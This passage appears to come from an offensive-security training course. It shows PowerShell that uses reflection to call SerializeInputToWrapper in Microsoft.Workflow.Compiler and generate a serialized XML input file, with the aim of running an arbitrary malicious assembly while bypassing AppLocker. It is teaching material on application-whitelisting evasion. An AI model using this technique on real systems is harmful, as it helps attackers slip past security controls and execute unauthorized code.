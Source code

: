 With the method resolved, we must determine which arguments it accepts. The first are the _WorkflowCompilerParameters_. Fortunately, the type is public, meaning we can simply instantiate an object of this type. The second argument is an array of strings containing file paths.

Once we have set up the argument values, we can call the method through reflection with the _Invoke_ method:

```
Add-Type -Path 'C:\Windows\Microsoft.NET\Framework64\v4.0.30319\System.Workflow.ComponentModel.dll'
$compilerparam = New-Object -TypeName Workflow.ComponentModel.Compiler.WorkflowCompilerParameters
$pathvar = "test.txt"
$output = "C:\Tools\test.xml"
$tmp = $SerializeInputToWrapper.Invoke($null, @([Workflow.ComponentModel.Compiler.WorkflowCompilerParameters] $compilerparam, [String[]] @(,$pathvar)))
Move-Item $tmp $output
```

> Listing 44 - Defining arguments and calling SerializeInputToWrapper

After executing the code, we can dump the contents of the generated file to view the serialized content:

```
PS C:\Tools> type C:\Tools\test.xml
<?xml version="1.0" encoding="utf-8"?>
<CompilerInput xmlns:i="http://www.w3.org/2001/XMLSchema-instance" xmlns="http://schemas.datacontract.org/2004/07/Microsoft.Workflow.Compiler">
  <files xmlns:d2p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays">
    <d2p1:string>test.txt</d2p1:string>
  </files>
  <parameters xmlns:d2p1="http://schemas.datacontract.org/2004/07/System.Workflow.ComponentModel.Compiler">
    <assemblyNames xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
    <compilerOptions i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
    <coreAssemblyFileName xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler"></coreAssemblyFileName>
...
```

> Listing 45 - Contents of serialized XML file generated by SerializeInputToWrapper

Note that the XML file was generated from an administrative PowerShell console in the context of the "Offsec" user to avoid AppLocker. This means that the "student" user cannot access it before we modify the file permissions.

We notice two things from the contents of the file. First, the file path we supplied has been embedded into it and will be used with the call to _Compile_ once the file is deserialized. Second, quite a few compiler flags have been added, but at this time we do not know if the values they contain will lead us down the correct code path in order to process and execute an arbitrary malicious assembly file.

With an understanding of how we can generate an input file that will be deserialized correctly by Microsoft.Workflow.Compiler, we must return to dnSpy. Our goal is to determine what file format and content the file name embedded in the XML file should have, and which compiler flags are required to reach the compilation, loading, and subsequent execution sections.
